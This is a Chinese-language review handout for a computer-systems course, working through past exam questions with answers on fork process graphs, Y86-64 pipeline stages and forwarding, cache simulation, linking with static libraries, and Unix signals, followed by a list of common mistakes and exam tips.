22（3 分）整数运算中有可能出现“除 0 异常”。如果它属于 Faults 类型的异常，是否可以在异常处理程序中把结果修改成某个特殊值（例如全为 1 的二进制数），然后继续执行该程序后续的指令？
答案
不可以（1 分）。故障处理程序返回后，要重新执行引起故障的那条除法指令，它会再次除以 0、再次触发异常，所以只能终止该进程（2 分）。结论错则全题不得分。
23（3 分）程序先打印 A，fork 后子进程打印 B，父进程打印 C 并再 fork 一次，最后所有进程打印 D。（1）会输出几次 D？（2）B 和 C 哪个先输出？（3）ACDBDD 这个输出序列是否可能？
int main() {
printf("A\n");
pid_t pid = fork();
if (pid == 0) {
printf("B\n");
} else {
printf("C\n");
fork();
}
printf("D\n");
return 0;
}答案
（1）3 次；（2）不确定；（3）可能
图 6 是它的进程图。共三个进程：父进程、第一次 fork 的子进程、父进程第二次 fork 的子进程，每个进程最后都打印一次 D。B 由子进程打印，C 由父进程打印，两者之间没有边，谁先都可以。ACDBDD 对应的顺序是：父进程打印 A、C，fork 后父进程打印 D，子进程打印 B、D，最后第二个子进程打印 D，这是一种合法的拓扑排序。用枚举程序验证，这个程序共有 5 种可行输出（ABCDDD、ABDCDD、ACBDDD、ACDBDD、ACDDBD），ACDBDD 在其中。
图 6 2025 年第 23 题的进程图
24（6 分）阅读下面这段程序。
（1）（2 分）这个程序正常运行，会产生几个进程？
（2）（2 分）总共会输出多少行？
（3）（2 分）最后一行输出是：A. x=2 B. x=3 C. x=4 D. x=5 E. x=6 F. 不确定
#include <stdio.h>
#include <unistd.h>
#include <sys/wait.h>
int x = 1;
int main() {
printf("start: x = %d\n", x);
pid_t pid1 = fork();
if (pid1 == 0) {
x += 1;
printf("x = %d\n", x);
sleep(1);
pid_t pid2 = fork();
if (pid2 == 0) {
x += 2;
printf("x = %d\n", x);
} else {
x += 3;
printf("x = %d\n", x);
wait(NULL);
}
} else {
x += 4;
printf("x = %d\n", x);
wait(NULL);
printf("x = %d\n", x);
}
return 0;
}答案
（1）3 个；（2）6 行；（3）x = 5
图 7 画出了三个进程和两条 wait 边。每个进程有自己的 x：父进程是 1 + 4 = 5，两次都打印 5；子进程先打印 1 + 1 = 2，fork 之后它的 x 是 2，加 3 后打印 5；孙进程继承 x = 2，加 2 后打印 4。所以共有 start 加 5 行 x 的输出，6 行。最后一行由谁打印？父进程第二次打印在 wait 之后，wait 要等子进程终止，而子进程在终止前又要 wait 孙进程，所以父进程的第二次打印必然是全部输出的最后一行，值是 5。sleep(1) 只影响通常的顺序，不改变约束，判断时不能依赖它。枚举程序给出的 8 种可行输出的最后一行全都是父进程的 x = 5。
图 7 2025 年第 24 题的进程图：红色箭头是 wait 带来的先后约束
第五部分 往年代表题精选（加练）#
这一部分的题目来自往年的期中和期末考试，篇幅比阶段测验的小题长，但考查的正是阶段测验最常出现的几个计算点。答案以官方答案为准，其中缓存题用模拟程序逐次核对过；凡是需要按课件口径作答的地方，在讲解中注明。
5.1 新指令的阶段表（2020 年期中第四题（1），16 分）#
题目拟在 Y86-64 中新加入指令 leave，其语义相当于 rrmovq %rbp, %rsp 后接 popq %rbp。请按 SEQ 的六个阶段补全它的操作，对存储器的引用必须标明字节数。
答案
取指：icode:ifun ← M1[PC]；valP ← PC + 1。译码：valA ← R[%rbp]；valB ← R[%rbp]。执行：valE ← valB + 8。访存：valM ← M8[valA]。写回：R[%rsp] ← valE；R[%rbp] ← valM。更新 PC：PC ← valP。
leave 的两步语义合起来是：从 %rbp 指向的位置读出旧的 %rbp，同时让 %rsp 变成 %rbp + 8。它与 popq 几乎一样，区别只在于 popq 以 %rsp 为栈顶，leave 以 %rbp 为栈顶。所以照 popq 的阶段表，把译码阶段读的 %rsp 换成 %rbp：valA 用作读内存的地址，valB 送进 ALU 加 8。写回时新栈顶写进 %rsp，读出的值写进 %rbp。leave 没有寄存器字节，也没有常数，所以只有 1 个字节，valP = PC + 1；这是与 popq 的另一个区别，popq 是 2 个字节。
这道题的思路可以推广到所有“新指令”题：先把新指令的语义写成已有指令的组合，再找一条阶段动作最接近的已有指令，逐行修改。2025 年第 5 题（popq）、第 6 题（aluA）都是这种题的简化版。
5.2 PIPE 的前递与加载/使用（2024 年期中第四题，20 分）#
（1）补全 PIPE 中 d_valA 的 HCL 描述，实现数据前递。
word d_valA = [
D_icode in { ICALL, IJXX } : ___(1)___;
d_srcA == e_dstE : ___(2)___;
d_srcA == M_dstM : ___(3)___;
d_srcA == M_dstE : ___(4)___;
d_srcA == W_dstM : ___(5)___;
d_srcA == W_dstE : ___(6)___;
1 : ___(7)___;
];答案
（1）D_valP （2）e_valE （3）m_valM （4）M_valE （5）W_valM （6）W_valE （7）d_rvalA
第一行是“借用 valA 传递 valP”：call 和 jXX 都不需要读 rA，于是让 valA 携带返回地址或顺序地址往后传。其余各行按“值与目的寄存器配对、从新到旧”排列：E 级的 ALU 结果是 e_valE；M 级的加载数据是本周期刚从内存读出的 m_valM，M 级的 ALU 结果已经锁存在 M_valE；W 级的两个值都已锁存在 W 寄存器中。最后一行是从寄存器文件读出的值。注意 (3) 是小写的 m_valM，因为数据在本周期才读出，还不在任何流水线寄存器里。
（2）指令 mrmovq 0(%rcx),%rdx 之后紧跟 pushq %rdx，产生加载/使用冒险。指令 1 执行到哪个阶段时获得内存中的数据？该数据以哪个信号前递？按原设计流水线需要停顿几个周期？
答案
访存阶段；m_valM；1 个周期
（3）为了让上面两条指令之间无需插入气泡，可以设计一条额外的数据通路：应当从哪个阶段把数据前递到哪个阶段，用于选择哪个流水线寄存器的值？写出新的 e_valA 的 HCL。
答案
从访存阶段前递到执行阶段，用于选择 M_valA 的值。HCL 为 E_icode in { IPUSHQ, IRMMOVQ } && E_srcA == M_dstM : m_valM; 1 : E_valA;
pushq 和 rmmovq 用 valA 作为要写进内存的数据，而这个数据要到访存阶段才用到，比译码阶段晚了两级。所以当加载指令在 M 级读出数据时，pushq 正好在 E 级，把 m_valM 送进 E 级的 valA，下一个周期它进入 M 级时，M_valA 就是正确的数据。这条通路只对“数据在访存阶段才使用”的指令有效。
（4）加上这条通路后，popq %rdx 之后紧跟 rmmovq %rax,0(%rdx) 仍然需要暂停。用 stall、bubble、normal 填写 F、D、E、M、W 五个阶段的控制信号。
答案
F：stall D：stall E：bubble M：normal W：normal
这一次 %rdx 是 rmmovq 的地址寄存器 rB，地址在执行阶段就要用来计算，新通路只能修正 valA，帮不上忙，仍然是普通的加载/使用冒险：F、D 暂停，E 插入气泡，M、W 照常。
5.3 组相联缓存（2024 年期中第五题，20 分）#
题目某计算机的内存空间为 32 字节（地址 0–31）。（1）缓存容量 8 字节，为了扩容而又不大幅修改地址解析逻辑，最适宜的方式是：A. 增加组数 B. 增大块 C. 增加相联度 D. 以上皆不是。（2）扩容到 16 字节后，访问 0、2、4、8、12、14 的命中率为 33.3%，块大小是：A. 2 字节 B. 4 字节 C. 8 字节 D. 以上皆不是。（3）块大小 4 字节，S = 2，E = 2，LRU 替换，依次访问 2、23、13、9、20、15、13、10，填写最终的缓存状态并给出命中次数。（4）若地址区间包含 10 的倍数的块不被缓存，重做（3）。
答案
（1）C （2）B （3）set0：标记 00 的 M[0–3]、标记 01 的 M[8–11]；set1：标记 10 的 M[20–23]、标记 01 的 M[12–15]；4 次命中。（4）set0：标记 00 的 M[0–3]；set1：标记 01 的 M[12–15]；另外两行无效；2 次命中。
（1）增加相联度只增加每组的行数，组索引和块偏移的位数都不变，地址划分的逻辑不用改；增加组数会改变 s，增大块会改变 b。（2）可以逐个试：块为 4 字节时，六个地址分别属于块 0、0、1、2、3、3，不论组的划分如何，第 2 次（地址 2）和第 6 次（地址 14）访问都命中，其余都是冷不命中，命中率正好 2/6；块为 2 字节时六个地址各不同块，命中 0 次；块为 8 字节时命中 4 次。
（3）m = 5，b = 2，s = 1，t = 2。块号是地址除以 4，组号是块号的最低位，标记是块号的其余位。依次处理：2（块 0，组 0）冷不命中；23（块 5，组 1）冷不命中；13（块 3，组 1）冷不命中；9（块 2，组 0）冷不命中；20（块 5，组 1）命中；15（块 3，组 1）命中；13 命中；10（块 2，组 0）命中。共 4 次命中，两组各装了两块，没有发生替换。
（4）地址区间包含 10 的倍数的块是 M[8–11]（含 10）和 M[20–23]（含 20），这两块访问时不装入缓存（地址 0 按官方答案不计入 10 的倍数）。于是 23、9、20、10 每次都不命中，只有 15 和 13 在已装入的 M[12–15] 上命中，共 2 次。最终 set0 只有 M[0–3]，set1 只有 M[12–15]。
5.4 符号与静态库（2014 年期末第四题，10 分）#
/* main.c */
void fib(int n);
int main(int argc, char **argv) {
int n = 0;
sscanf(argv[1], "%d", &n);
fib(n);
}
/* fib.c */
#define N 16
static unsigned int ring[3][N];
static void print_bignat(unsigned int *a) { /* 打印 a[N-1] ... a[0] */ }
void fib(int n) {
/* 调用 bignat.c 中的 from_int 和 plus，计算 fib(n) 并打印 */
}题目bignat.c 中定义了 int plus(int n, unsigned *a, unsigned *b, unsigned *c) 和 void from_int(int n, unsigned k, unsigned *a)。（1）给出 main.c 中 fib、main 以及 fib.c 中 ring、fib、plus 的属性（局部或全局、强或弱，无法确定的画 X）。（2）bignat.c 编译成静态库 bignat.a，下面三条命令的结果是什么？（A）正确（B）链接失败，有未定义的引用（C）链接失败，有重复定义：gcc -o fib main.c fib.c bignat.a；gcc -o fib bignat.a main.c fib.c；gcc -o fib fib.c main.c bignat.a。（3）如果把 ring 误写成 static int ring[3][N]，会不会影响编译、链接和运行结果？
答案
（1）main.c：fib 全局、弱；main 全局、强。fib.c：ring 局部、X；fib 全局、强；plus 全局、弱。（2）A；B；A。（3）没有影响。
（1）main.c 只声明了 fib 而没有定义，按课件的口径记作全局、弱（它在符号表中是一个 UND 条目）。fib.c 中 plus 同样只被引用。ring 是 static 的，是局部符号，强弱的概念只适用于全局符号，所以画 X。
（2）链接器按命令行从左到右扫描。第一条和第三条命令中，bignat.a 在最后，扫描到它时 fib.o 对 plus、from_int 的引用尚未解析，链接器从库中取出 bignat.o，成功。第二条命令先扫描 bignat.a，此时还没有任何未解析的引用，库中的成员一个也不取；之后 fib.o 引用了 plus、from_int，却再也没有库可以提供定义，于是报未定义的引用。
（3）ring 是 fib.c 中的 static 数组，只在 fib.c 内部使用，传给 plus 等函数时是按指针传递的。signed 与 unsigned 的 int 位模式相同、大小相同，改变声明不影响内存布局，也不影响链接（局部符号不参与跨模块解析），所以编译、链接和运行结果都不变。
5.5 信号的接收（2021 年期末第四题 PART B，6 分）#
int counter = 0;
int pid = 0;
int N = 2;
void handler1(int sig) {
counter++;
printf("%d", counter); fflush(stdout);
// Kill(pid, SIGUSR2);
}
void handler2(int sig) {
printf("R"); fflush(stdout);
}
int main() {
Signal(SIGUSR1, handler1);
Signal(SIGUSR2, handler2);
if ((pid = Fork()) == 0) { /* child */
for (int i = 0; i < N; ++i) {
printf("C"); fflush(stdout);
Kill(Getppid(), SIGUSR1);
}
} else { /* parent */
Wait(NULL);
}
return 0;
}题目（1）进程在何时检查待处理信号并调用处理程序？A. 随时 B. 用户态切换到内核态 C. 内核态切换到用户态。（2）在两次检查之间，进程收到 n 个相同的信号，实际会处理几个？A. 1 B. 1 到 n 之间的随机值 C. n。（3）N = 2 时，所有可能的输出是：A. CC B. CC1 C. CC12 D. C1C2。（4）N = 2 并取消 handler1 中的注释时，所有不可能的输出是：A. CC B. CC1 C. CC1R2 D. C1RC2 E. C1CR2。
答案
（1）C （2）A （3）BCD （4）A
这道题考的正是 3.9 节的两条结论。子进程连续发送两次 SIGUSR1，父进程可能在两次之间处理了第一个（输出 C1C2，或者 CC12：第二个 C 在父进程处理之前就已打印），也可能两次都在它处理之前到达，合并成一个（CC1）。但父进程至少会处理一次：它从 wait 返回时要从内核模式回到用户模式，这时一定会检查到待处理的 SIGUSR1，所以“CC”不可能。第（4）问中父进程的处理程序会向子进程发送 SIGUSR2，子进程可能在收到之前就已经退出，所以 R 可有可无，但“CC”仍然不可能，其余四个都可能。第 17 讲讲义 17.13 节在默认环境上实际运行了这个程序：N = 2 时 2000 次中 CC1 出现 1009 次、CC12 出现 982 次、C1C2 出现 9 次；取消注释后运行 3000 次，从未出现 CC。
第六部分 陷阱总清单与考前检查#
6.1 最容易丢分的 15 个陷阱#
表 10 第 9–17 讲最容易丢分的 15 个陷阱
| # | 陷阱 | 正确的做法 | 见 |
|---|---|---|---|
| 1 | 把调用约定（参数、返回值寄存器）当成 ISA | ISA 只规定可见状态和指令语义；call 压栈属于 ISA | 3.1 |
| 2 | 时序图中让寄存器的输出跟着输入变化 | 寄存器只在时钟上升沿更新 | 3.1 |
| 3 | popq 用 valE 读内存，pushq 用 valA 写地址 | popq 读 M8[valA]，pushq 写 M8[valE] | 3.2 |
| 4 | call 压栈写成 valC，更新 PC 写成 valP | 压栈的是 valP，PC 取 valC | 3.2 |
| 5 | 流水线延迟写成各级时间之和 | 延迟 = 级数 × 时钟周期 | 3.3 |
| 6 | 多个转发来源时取了较旧的值 | 取离 D 级最近的一级：E、M、W 依次 | 3.3 |
| 7 | 认为加载/使用冒险能靠转发完全消除 | 仍需暂停一个周期，再从 m_valM 转发 | 3.3 |
| 8 | 写“加载/使用加 ret”时加载的不是 %rsp | 必须是 mrmovq 或 popq 写 %rsp，紧跟 ret | 3.3 |
| 9 | 认为 ROM 只能读不能写 | EEPROM、闪存都可擦除重写 | 3.4 |
| 10 | 局部性只答数组的空间局部性 | 指令、数据各两种，共四处 | 3.4 |
| 11 | 缓存组号取地址的最低位 | 低 b 位是块偏移，中间 s 位才是组号 | 3.5 |
| 12 | “过程调用”限制答成“调用有开销” | 要点是副作用和返回值不确定 | 3.6 |
| 13 | 把宏、局部变量、头文件名当成符号 | 只有全局变量、函数和 static 变量进符号表 | 3.7 |
| 14 | 故障处理后“改结果继续执行” | 故障返回后重新执行当前指令 | 3.8 |
| 15 | 以为同一信号到达几次就处理几次 | 待处理位只有一位，信号不排队 | 3.9 |
6.2 考前一晚过一遍#
考前一晚不必再做新题，按下面的顺序把关键内容过一遍即可。先看 2.1 节的两张表，能默写 popq、pushq、call、ret 的六个阶段，能说出三种冒险的检测条件和 F、D、E 三级的控制信号。再看 2.2 节，能从容量、块大小、相联度算出 t、s、b，能说出三种不命中的定义。然后看 2.4、2.5 节，能判断一段代码中每个名字的身份，能对任意一段只含 fork、wait、printf 的程序画出进程图。最后把第四部分的 24 道题从头到尾看一遍答案，尤其是答案与课件不一致的第 7、17、20 题，弄清楚为什么。
如果还有时间，再翻一下第 9–16 讲讲义第二部分的研讨题解答，以及第 17 讲讲义的速查表（第三部分）。2025 年的题目几乎都能在研讨题中找到原型，今年也很可能如此，研讨题中问过“为什么”的地方，就是简答题的出题点。
6.3 考场策略#
试卷按讲次分组，不按难度排序，题量较大。建议先快速做完所有填空和选择，再回头做需要写解释的简答题。简答题按要点给分，每个要点写成一句完整的话，不必长篇大论，但不要漏掉“为什么”的那一层：例如“不能前递解决，因为数据要到访存阶段才读出，而使用者在译码阶段就需要”。不定项选择全部答对才得分，逐个选项对照定义判断，不要凭印象。缓存模拟和 fork 题一定要在草稿纸上逐步列表或画图，不要心算；遇到与课件定义可能有出入的题目（例如流水线的延迟），按课件的定义作答，并用一句话写明算法。
—— 第 2 次阶段测验冲刺复习讲义完 ——